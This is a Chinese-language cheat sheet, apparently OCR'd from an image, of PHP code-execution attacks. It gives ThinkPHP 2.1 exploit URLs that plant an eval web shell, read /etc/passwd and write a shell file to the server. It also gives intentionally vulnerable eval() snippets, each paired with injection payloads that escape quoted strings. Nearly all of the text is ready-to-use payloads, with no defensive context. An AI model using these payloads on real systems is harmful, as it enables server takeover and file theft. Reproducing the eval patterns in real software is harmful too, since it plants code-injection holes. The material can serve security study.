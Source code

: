 	操作思路
	{
	# 一般找CMS相应版本漏洞，如ThinkPHP2.1 
	* 一句话 http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}} 
	* 得到当前路径 http://www.xxx.com/News/detail/id/{${print(getcwd()))}} 
	* 读文件 http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}} 
		POST的数据为：f=/etc/passwd 
	* 写shell http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}} 
		POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
	}
	
	示例
	{
		1）直接传入函数
	demo:
		<?php
		$data = $_GET['data'];
		eval("\$ret = $data;");
		echo $ret;
		?>
	exp:
		http://www.jianshu.com/code_exection/1.php?data=phpinfo()
		http://www.jianshu.com/code_exection/1.php?data=1;phpinfo()
		http://www.jianshu.com/code_exection/1.php?data=${phpinfo()}
		
		2）strtolower('$data')
	demo:
		<?php
		$data = $_GET['data'];
		eval("\$ret = strtolower('$data');");
		echo $ret;
		?>
	exp:
		http://www.jianshu.com/code_exection/1.php?data=1');phpinfo();//
	
	3）strtolower(\"$data\")
	demo:
		<?php
		$data = $_GET['data'];
		eval("\$ret = strtolower(\"$data\");");
		echo $ret;
		?>
	exp:
	ttp://www.jianshu.com/code_exection/1.php?data=1");phpinfo();//
	http://www.jianshu.com/code_exection/1.php?data=${phpinfo()}
	
	4）strtolower(\"$data\")
	demo:
		<?php
			$data = $_GET['data'];
			eval("\$ret = strtolower(\"$data\");");
			echo $ret;
		?>
	exp:
	http://www.jianshu.com/code_exection/1.php?data=");phpinfo();//
	http://www.jianshu.com/code_exection/1.php?data=${phpinfo()}
